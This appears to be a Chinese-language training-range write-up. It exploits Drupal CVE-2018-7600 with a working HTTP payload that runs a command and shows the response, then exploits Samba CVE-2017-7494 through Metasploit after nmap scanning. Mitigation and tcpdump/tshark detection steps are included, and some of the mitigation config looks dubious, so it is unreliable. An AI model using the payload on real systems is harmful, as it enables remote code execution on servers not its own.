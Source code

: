 # 入口靶标漏洞缓解

## 漏洞利用

对入口靶标进行攻击：
启动容器 vulfocus/drupal-cve_2018_7600 ，打开网页以后进行抓包，发送
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 192.168.56.119:37124
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
得到回复：
```
HTTP/1.1 200 OK
Date: Wed, 21 May 2025 05:26:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Ajax-Token: 1
Content-Length: 209
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
```
返回结果中包含www-data用户权限信息，证明命令执行成功
![](img/利用得到回复.png)

## 漏洞修复

临时缓解措施：
禁用用户注册和危险路由

### 编辑Drupal的settings.php文件
```
nano /var/www/html/sites/default/settings.php
```
在文件末尾添加以下内容：

```php
// 禁用用户注册
$config['user.settings']['register'] = 'admin_only';
// 关闭AJAX表单漏洞入口
$config['system.performance']['fast_404']['exclude_ajax_paths'] = TRUE;
```
以此来拦截恶意请求特征（如 `element_parents` 参数）。
![](img/添加config.png)

### 重启Web服务：

Apache
```
sudo systemctl restart apache2
```

得到响应：
```
HTTP/1.1 403 Forbidden
Date: Wed, 21 May 2025 06:17:02 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
Content-Length: 2
Content-Type: application/json

{}
```

![](img/缓解结果.png)
可以看到，漏洞得到了缓解。
添加的防护措施（`settings.php` 修改 + Apache 规则）已成功拦截攻击请求，Drupal 不再处理包含恶意参数（如 `element_parents`、`ajax_form`）的请求，返回空 JSON `{}` 和 403 状态码。
并且登录网页可以看到界面发生了变化：
![](img/原先界面.png)
![](img/现在界面.png)

# 第三层漏洞利用和检测

尝试扫描10.10.10.0/24网段：

nmap扫描
```
nmap -Pn 10.10.10.0/24 -p 445
```
![](img/nmap.png)
可以发现，10.10.10.2端口是open状态。于是对它进行进一步分析，确认Samba版本：
```
nmap -Pn 10.10.10.2 -p 445 --script smb-protocols
```
根据Nmap脚本扫描结果，目标主机10.10.10.2的Samba服务支持SMBv1（包括危险的NT LM 0.12）以及更高版本的SMBv2/3协议。这为利用CVE-2017-7494（Samba远程代码执行漏洞）提供了直接条件。

使用Metasploit自动化利用：
![](img/攻击.png)
启动交互式 shell：
```
script /dev/null -c bash
```

查看flag

![](img/flag.png)

查看系统信息
```
cat /etc/os-release
```
![](img/os-re.png)

## 攻击检测

在攻击开始前，开启监听
```
sudo tcpdump -i br-34e6724ef976 port 445 -w samba_attack.pcap
```
![](img/监听.png)

tshark查看攻击ip来源

```
tshark -r samba_attack,pcap -Y "smb2" -T fields -e ip.src | sort | uniq
```
![](img/ip来源.png)

确认攻击源IP为10.10.10.1（内网横向移动迹象）

查看抓到的pcap包，可以看到攻击者执行的指令以及受害者做出的回复：

![](img/cat1.png)
![](img/cat2.png)

可用frame contains "xxx"查看包含某些关键词的操作，比如查看可疑写入行为：
![](img/写入文件行为.png)